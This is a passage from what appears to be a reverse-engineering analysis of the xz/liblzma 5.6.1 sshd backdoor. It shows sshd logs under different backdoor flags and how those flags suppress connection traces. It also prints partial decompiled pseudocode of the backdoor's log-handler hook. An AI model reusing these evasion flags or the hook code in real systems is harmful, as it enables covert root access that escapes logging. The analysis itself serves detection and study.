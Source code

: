 Logging with `-d` and without the `F0_MM_LOG_HANDLER_HOOK` flag:

```
root@user:/home/user/xz-lzma# env -i LC_LANG=C LD_PRELOAD=$PWD/liblzma.so.5.6.1 /usr/sbin/sshd -p 22 -d
Server listening on 0.0.0.0 port 22.
Server listening on :: port 22.
Connection from 10.0.0.2 port 61899 on 10.0.0.1 port 22 rdomain ""
Failed publickey for root from 10.0.0.2 port 61899 ssh2: RSA-CERT SHA256:G1Q+4a0TgAHnlq2B8BKLZUP6wDHsjX6F5nVtUTU3dBQ ID  (serial 0) CA RSA SHA256:s3cBHP6c4j0tLaNyEE5f/1n7gjKuOJn8AWxp+nRPD7c
userauth_pubkey: parse key: invalid format [preauth]
Accepted password for root from 10.0.0.2 port 61899 ssh2
Starting session: shell for root from 10.0.0.2 port 61899 id 0
Connection closed by 10.0.0.2 port 61899
```

Logging with `-d` and with the `F0_MM_LOG_HANDLER_HOOK` enabled:

```
root@user:/home/user/xz-lzma# env -i LC_LANG=C LD_PRELOAD=$PWD/liblzma.so.5.6.1 /usr/sbin/sshd -p 22 -d
Server listening on 0.0.0.0 port 22.
Server listening on :: port 22.
Connection from 10.0.0.2 port 61881 on 10.0.0.1 port 22 rdomain ""
Connection closed by authenticating user root 10.0.0.2 port 61881 [preauth]
```

Otherwise, if `sshd` is started without the `-d` flag, the backdoor can become fully stealthy and it's very difficult to detect a connection attempt.
Especially if the `F0_DISABLE_PAM` flag is also enabled.

`journalctl -t sshd` with `F0_DISABLE_PAM` flag disabled will leave some traces of the connection attempt:

```
Apr 11 14:56:59 user sshd[37074]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Apr 11 14:56:59 user sshd[37074]: pam_env(sshd:session): deprecated reading of user environment enabled
Apr 11 14:57:02 user sshd[37074]: pam_unix(sshd:session): session closed for user root
```

The pseudocode for the `set_mm_log_handler_hook` function (which performs the `mm_log_handler` hook installation) is shown below:

```c
Status __fastcall set_mm_log_handler_hook(modulus_t *modulus, global_ctx *ctx)
{
  ssh_logs *ssh_logs; // rax
  char *func_mm_log_handler_ptr; // rdx
  unsigned __int64 *mm_log_handler_hook_ptr; // rcx
  void *handle_logging; // r9
  uint8_t flags0; // di
  unsigned __int64 mm_log_hander_hook; // r8
  unsigned __int64 *mm_log_handler_hook; // rt0
  uint64_t mm_log_handler_hook_addr; // rcx

  ssh_logs = ctx->ssh_logs_p;
  if ( !modulus )
    return Error;
  if ( !ssh_logs )
    return Error;
  func_mm_log_handler_ptr = ssh_logs->func_mm_log_handler_ptr;
  if ( !func_mm_log_handler_ptr )
    return Error;
  mm_log_handler_hook_ptr = ssh_logs->mm_log_handler_hook_p;
  if ( !mm_log_handler_hook_ptr )
    return Error;
  handle_logging = ssh_logs->handle_logging;
```

[1]: https://gynvael.coldwind.pl/?lang=en&id=782
[2]: https://gist.github.com/q3k/af3d93b6a1f399de28fe194add452d01
[3]: https://en.wikipedia.org/wiki/Radix_tree
[4]: https://github.com/smx-smx/xzre/blob/main/xzre.h
[5]: https://github.com/smx-smx/xzre/blob/ff3ba18a39bad272ff628bb759ed5c897cf441b3/xzre.c#L48